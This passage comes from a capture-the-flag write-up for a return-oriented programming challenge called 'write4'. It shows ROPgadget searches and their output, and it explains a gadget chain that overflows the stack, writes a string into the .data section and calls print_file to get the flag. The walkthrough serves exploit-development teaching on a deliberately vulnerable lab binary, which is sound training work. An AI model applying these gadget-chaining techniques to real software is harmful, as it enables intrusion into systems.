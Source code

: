 ```text
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```

This moves the entire contents of the `r15` register to the address pointed to by `r14`.

Perfect. Now we just need a way to get our string into `r15` and the address of `.data` into `r14`. Since we control the stack, we know from the previous challenges that we can move stack values into registers with the `pop` instruction.

We can do another `ROPgadget` search, filtering for `r14` and for `pop` in two passes:

```text
$ ROPgadget --binary ./write4 | grep "r14" | grep "pop"

0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

And there's the gadget we're looking for.

```text
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

One last thing. We need to call `print_file` at the end of it all to get our flag, and we have to pass it our string. As I mentioned earlier, this means getting `rdi` to point to the `.data` section, where our string is located. This means one last `ROPgadget` search:

```text
$ ROPgadget --binary ./write4 | grep "pop rdi"

0x0000000000400693 : pop rdi ; ret
```

Excellent.

Alright, let's put our entire exploit together.

1. We overflow the stack and overwrite it with our crafted data. This is crafted in such a way that when `pwnme` returns, it:
2. Jumps to the gadget that pops the top two values (the address of `.data` and the string) off the stack and into `r14` and `r15`.
3. When that gadget returns, it jumps to the gadget that moves the value of `r15` into the address pointed to by `r14`.
4. When that gadget returns, it jumps to the gadget that pops the address of `.data` off the stack and into `rdi`.
5. Lastly, we can return and finally jump to `print_file` via its PLT entry.

Here's that in assembly, because I can:

```assembly
; ret instructions removed for clarity
pop r14 ; pop the address of .data into r14
pop r15 ; pop the string into r15
mov qword ptr [r14], r15 ; move the data in r15 into .data
pop rdi ; pop the address of .data into rdi
; return to print_file at this point
```
